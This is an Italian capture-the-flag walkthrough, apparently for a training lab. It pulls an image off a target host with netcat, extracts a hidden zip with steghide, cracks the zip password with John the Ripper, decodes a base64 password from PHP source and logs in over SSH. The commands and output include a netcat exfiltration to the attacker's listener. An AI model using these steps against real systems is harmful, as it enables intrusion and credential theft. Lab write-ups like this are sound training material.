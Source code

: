 1) Nella cartellla /var/www/files/images c'è un immagine che iniza con hacker.... scaricatela nel compuer: 
- la mia macchina:  nc -lvp  2345 > hacker-with-laptop_23-2147985341.jpg
- macchina  target: nc 10.8.21.1  2345 -w 4 < hacker-with-laptop_23-2147985341.jpg

2) Estraiamo i file che nasconde l'immagine:  
steghide extract -sf hacker-with-laptop_23-2147985341.jpg

3) unzippiamo il file backup.zip:
┌──(kali㉿kali)-[~]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 
   skipping: source_code.php         incorrect password

4) Useremo johntheripper per trovare la password
5) Portiamo il file in un formato leggibile a john the ripper: 
zip2john backup.zip > backup.john 

6) sudo su
7) Ora con la wordlist facciamo l'attacco a forza bruta:
┌──(root㉿kali)-[/home/kali]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt backup.john
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)     
1g 0:00:00:00 DONE (2022-11-19 15:59) 20.00g/s 327680p/s 327680c/s 327680C/s total90..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

8) Ora possiamo aprire il file source code.php:
┌──(root㉿kali)-[/home/kali]
└─# unzip backup.zip
Archive:  backup.zip
[backup.zip] source_code.php password: 
password incorrect--reenter: 
  inflating: source_code.php  

9) Apriamo il file: 
┌──(root㉿kali)-[/home/kali]
└─# cat source_code.php 
<html>
<head>
        Admin Portal
</head>
        <title> Site Under Development ... </title>
        <body>
                <form method="POST">
                        Username: <input type="text" name="name" placeholder="username"><br><br>
                        Email: <input type="email" name="email" placeholder="email"><br><br>
                        Password: <input type="password" name="password" placeholder="password">
                        <input type="submit" name="submit" value="Submit"> 
                </form>
<?php
        if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==") <-- Scop. Pass
                { 
                        $random = rand(1000,9999);?><br><br><br>
                        <form method="POST">
                                Enter the OTP: <input type="number" name="otp">
                                <input type="submit" name="submitOtp" value="Submit">
                        </form>
                <?php   mail($email,"OTP for authentication",$random);
                        if(isset($_POST["submitOtp"]))
                                {
                                        $otp = $_POST["otp"];
                                        if($otp == $random)
                                        {
                                                echo "Welcome Anurodh!";
                                                header("Location: authenticated.php");
                                        }
                                        else
                                        {
                                                echo "Invalid OTP";
                                        }
                                }
                }
                else
                {
                        echo "Invalid Username or Password";
                }
        }
?>
</html>


10) Abbiamo scoperto la password di Anurodh ora basta decodificarla, sapendo che  è codificata in base64:
┌──(root㉿kali)-[/home/kali]
└─# echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 --decode
!d0ntKn0wmYp@ssw0rd   <--- Password decodificata>

11) Ora accediamo con il servizio ssh all'Account di  Anurodh:
┌──(root㉿kali)-[/home/kali]
└─#  ssh  anurodh@10.10.174.218

anurodh@10.10.174.218's password: 
Permission denied, please try again.
anurodh@10.10.174.218's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 19 21:10:09 UTC 2022

  System load:  0.08               Processes:              140
  Usage of /:   24.9% of 18.57GB   Users logged in:        0
  Memory usage: 22%                IP address for eth0:    10.10.174.218
  Swap usage:   0%                 IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

19 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

anurodh@ubuntu:~$ 
